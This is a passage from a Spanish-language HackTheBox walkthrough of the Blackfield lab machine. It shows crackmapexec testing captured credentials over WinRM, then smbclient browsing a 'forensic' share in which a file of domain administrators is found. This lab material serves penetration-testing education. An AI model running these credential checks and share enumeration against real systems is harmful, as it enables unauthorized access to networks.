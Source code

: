 Son válidas con SMB, ¿pero y con WinRM?

```bash
❯ crackmapexec winrm 10.10.10.192 -u audit2020 -p 'elc4br4!!!'
WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\audit2020:elc4br4!!!
```
En esta ocasión no hubo suerte con Winrm

Pero recordemos que tenemos el recurso forensic en SMB y ya podemos acceder con las credenciales anteriores.

```bash
❯ smbclient -U "audit2020" //10.10.10.192/forensic
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 14:03:16 2020
  ..                                  D        0  Sun Feb 23 14:03:16 2020
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

		5102079 blocks of size 4096. 1660717 blocks available
```

En la ruta commands_output encuentro varios archivos.

```bash
smb: \commands_output\> ls
  .                                   D        0  Sun Feb 23 19:14:37 2020
  ..                                  D        0  Sun Feb 23 19:14:37 2020
  domain_admins.txt                   A      528  Sun Feb 23 14:00:19 2020
  domain_groups.txt                   A      962  Sun Feb 23 13:51:52 2020
  domain_users.txt                    A    16454  Fri Feb 28 23:32:17 2020
  firewall_rules.txt                  A   518202  Sun Feb 23 13:53:58 2020
  ipconfig.txt                        A     1782  Sun Feb 23 13:50:28 2020
  netstat.txt                         A     3842  Sun Feb 23 13:51:01 2020
  route.txt                           A     3976  Sun Feb 23 13:53:01 2020
  systeminfo.txt                      A     4550  Sun Feb 23 13:56:59 2020
  tasklist.txt                        A     9990  Sun Feb 23 13:54:29 2020

		5102079 blocks of size 4096. 1667267 blocks available
```

Miro todos los archivos y en el archivo `domain_admins.txt` encuentro un usuario más, administrador del dominio.

![](/assets/images/HTB/Blackfield-HackTheBox/doamin_admins.webp)
